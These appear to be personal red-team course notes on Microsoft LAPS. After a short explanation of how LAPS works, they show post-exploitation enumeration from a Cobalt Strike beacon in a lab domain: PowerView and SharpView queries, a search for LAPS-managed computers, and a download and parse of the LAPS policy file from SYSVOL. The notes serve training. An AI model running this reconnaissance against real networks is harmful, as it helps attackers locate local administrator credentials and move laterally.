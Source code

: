 Organisations often have a build process for physical and virtual machines within their environment.  It's common that everything is built from the same "gold image" to ensure consistency and compliance.  However, these processes can result in every machine having the same password on accounts such as the local administrator.  If one machine and therefore the local administrator password hash is compromised, an attacker may be able to move laterally to every machine in the domain using the same set of credentials.

LAPS is a Microsoft solution for managing the credentials of a local administrator account on every machine, either the default RID 500 or a custom account.  It ensures that the password for each account is different, random, and automatically changed on a defined schedule.  Permission to request and reset the credentials can be delegated, which are also auditable.  Here is a quick summary of how LAPS works:

1. The Active Directory schema is extended and adds two new properties to computer objects, called _ms-Mcs-AdmPwd_ and _ms-Mcs-AdmPwdExpirationTime_.
2. By default, the DACL on ms-Mcs-AdmPwd only grants read access to Domain Admins.  Each computer object is given permission to update these properties on itself.
3. Rights to read AdmPwd can be delegated to other principals (users, groups etc), which is typically done at the OU level.
4. A new GPO template is installed, which is used to deploy the LAPS configuration to machines (different policies can be applied to different OUs).
5. The LAPS client is also installed on every machine (commonly distributed via GPO or a third-party software management solution).
6. When a machine performs a gpupdate, it will check the AdmPwdExpirationTime property on its own computer object in AD. If the time has elapsed, it will generate a new password (based on the LAPS policy) and sets it on the ms-Mcs-AdmPwd property.

on `WKSTN-2` as `DEV\bfarmer`
There are a few methods to hunt for the presence of LAPS.  If it's applied to a machine that you have access to, AdmPwd.dll will be on disk.
```powershell
beacon> run hostname
wkstn-2

beacon> ls C:\Program Files\LAPS\CSE

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 179kb    fil     05/05/2021 07:04:14   AdmPwd.dll
```
importing `powerview.ps1`
```powershell
powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1
```
recommended way to search for the `LAPS` GPO didn't work. just utilized sharview command instead
```powershell
powershell Get-DomainGPO | ? { $_.DisplayName -like "*laps*" } | select DisplayName, Name, GPCFileSysPath | fl
```
GPO didn't work. just utilized sharview command instead, had to sift through the results
```powershell
beacon> execute-assembly C:\Tools\SharpView\SharpView\bin\Release\SharpView.exe Get-DomainGPO
[*] Tasked beacon to run .NET program: SharpView.exe Get-DomainGPO
[+] host called home, sent: 879894 bytes
[+] received output:
objectguid                     : bbe274cc-6fcc-4e17-8804-bdc0ae952515
name                           : {2BE4337D-D231-4D23-A029-7B999885E659}
distinguishedname              : CN={2BE4337D-D231-4D23-A029-7B999885E659},CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io
whencreated                    : 8/16/2022 12:20:45 PM
whenchanged                    : 9/14/2022 9:48:59 AM
cn                             : {{2BE4337D-D231-4D23-A029-7B999885E659}}
objectclass                    : {top, container, groupPolicyContainer}
displayname                    : LAPS
gpcfunctionalityversion        : 2
usnchanged                     : 123238
showinadvancedviewonly         : True
gpcmachineextensionnames       : [{00000000-0000-0000-0000-000000000000}{BEE07A6A-EC9F-4659-B8C9-0B1937907C83}][{35378EAC-683F-11D2-A89A-00C04FBBCFA2}{D02B1F72-3407-48AE-BA88-E8213C6761F1}][{B087BE9D-ED37-454F-AF9C-04291E351182}{BEE07A6A-EC9F-4659-B8C9-0B1937907C83}][{C6DC5466-785A-11D2-84D0-00C04FB169F7}{942A8E4F-A261-11D1-A760-00C04FB9603F}][{D76B9641-3288-4F75-942D-087DE603E3EA}{D02B1F72-3407-48AE-BA88-E8213C6761F1}]
instancetype                   : 4
versionnumber                  : 25
usncreated                     : 25966
flags                          : 1
objectcategory                 : CN=Group-Policy-Container,CN=Schema,CN=Configuration,DC=cyberbotic,DC=io
gpcfilesyspath                 : \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{2BE4337D-D231-4D23-A029-7B999885E659}
dscorepropagationdata          : {9/7/2022 1:05:58 PM, 1/1/1601 12:00:00 AM}
```
As well as computer objects where the ms-Mcs-AdmPwdExpirationTime property is not null (any Domain User can read this property).
```powershell
beacon> powerpick Get-DomainComputer | ? { $_."ms-Mcs-AdmPwdExpirationTime" -ne $null } | select dnsHostName
[*] Tasked beacon to run: Get-DomainComputer | ? { $_."ms-Mcs-AdmPwdExpirationTime" -ne $null } | select dnsHostName (unmanaged)
[+] host called home, sent: 138058 bytes
[+] received output:


[01/03 20:23:16] [+] received output:
dnshostname              
-----------              
wkstn-2.dev.cyberbotic.io
web.dev.cyberbotic.io    
sql-2.dev.cyberbotic.io  
wkstn-1.dev.cyberbotic.io

```
If we locate the correct GPO, we can download the LAPS configuration from the gpcfilesyspath.
```powershell
beacon> ls \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{2BE4337D-D231-4D23-A029-7B999885E659}\Machine

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     08/16/2022 12:39:19   Applications
          dir     09/13/2022 15:38:58   Microsoft
          dir     08/16/2022 12:23:37   Preferences
          dir     08/16/2022 12:21:04   Scripts
 575b     fil     08/16/2022 12:22:23   comment.cmtx
 920b     fil     08/16/2022 12:22:23   Registry.pol

beacon> download \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{2BE4337D-D231-4D23-A029-7B999885E659}\Machine\Registry.pol
[*] started download of \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{2BE4337D-D231-4D23-A029-7B999885E659}\Machine\Registry.pol (920 bytes)
[*] download of Registry.pol is complete
```
The `Parse-PolFile` cmdlet from the [GPRegistryPolicyParser](https://github.com/PowerShell/GPRegistryPolicyParser) package can be used to convert this file into human-readable format.
- Didn't download this cmdlet, just took from course
```powershell
PS C:\Users\Attacker> Parse-PolFile .\Desktop\Registry.pol

KeyName     : Software\Policies\Microsoft Services\AdmPwd
ValueName   : PasswordComplexity
ValueType   : REG_DWORD
ValueLength : 4
ValueData   : 3

KeyName     : Software\Policies\Microsoft Services\AdmPwd
ValueName   : PasswordLength
ValueType   : REG_DWORD
ValueLength : 4
ValueData   : 14

KeyName     : Software\Policies\Microsoft Services\AdmPwd
ValueName   : PasswordAgeDays
ValueType   : REG_DWORD
ValueLength : 4
ValueData   : 30

KeyName     : Software\Policies\Microsoft Services\AdmPwd
ValueName   : AdminAccountName
ValueType   : REG_SZ
ValueLength : 20
ValueData   : LapsAdmin

KeyName     : Software\Policies\Microsoft Services\AdmPwd
ValueName   : AdmPwdEnabled
ValueType   : REG_DWORD
ValueLength : 4
ValueData   : 1

KeyName     : Software\Policies\Microsoft Services\AdmPwd
ValueName   : PwdExpirationProtectionEnabled
ValueType   : REG_DWORD
ValueLength : 4
ValueData   : 0
```